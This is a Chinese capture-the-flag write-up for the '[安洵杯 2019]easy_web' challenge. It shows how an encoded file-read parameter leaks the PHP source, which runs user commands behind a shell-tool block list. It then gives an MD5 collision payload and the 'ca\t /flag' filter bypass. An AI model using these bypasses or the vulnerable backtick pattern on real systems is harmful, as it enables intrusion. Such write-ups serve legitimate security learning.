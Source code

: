 # [安洵杯 2019]easy_web
![](<./img/Pasted image 20221118110609.png>)

---
首页长这样

![](<./img/Pasted image 20221118110637.png>)

自动跳转到了这个url
```php
/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=
```

---
`img`参数的值可能经过了`base64`编码

![](<./img/Pasted image 20221118112321.png>)

![](<./img/Pasted image 20221118112331.png>)

似乎还是套娃编码

---
首页提示`md5 is funny ~`，就这么被带偏了，以为最后这串是md5，结果想解密提示格式都不对，绕了好久才发现这原来是个简单的16进制编码

![](<./img/Pasted image 20221118112610.png>)

---
搞懂了`img`参数的编码，尝试逆用这一点获取`index.php`的文件内容
```php
/index.php?img=TmprMlpUWTBOalUzT0RKbE56QTJPRGN3&cmd=
```

![](<./img/Pasted image 20221118112846.png>)
```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}
```

---
ctf3.jpeg（~~充满恶意~~嘲讽拉满）

![](<./img/Pasted image 20221118113435.png>)

---
![](<./img/Pasted image 20221118190742.png>)

如上，由于对`POST`参数进行了向`string`类型的强制类型转换，而`php`默认行为并非对数组及其各个元素进行向字符串的转换，而是直接返回`'Array'`，因此第一个比较的结果便为假，削减了利用数组绕过`md5`的可行性

这里的`md5`需要通过强碰撞绕过

~~在网上找现成的强碰撞`payload`找了半天呜呜呜~~

```php
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

这里还踩了一个坑，就是`POST`要加一个`Content-Type`头，并将值设为`application/x-www-form-urlencoded`，告诉服务器这段`POST`数据已经`url`编码过了

---
然后是`cmd`参数的构造，这个题的绕过还是比较氵的
```php
cmd=ca\t /flag
```
原理大致就是，对于`preg_match`来说，`\t`被转义成了横向制表符，因而没有被过滤；而对于`sh`来说，`\t`被解析为`t`，因此`payload`依然被作为`cat /flag`执行
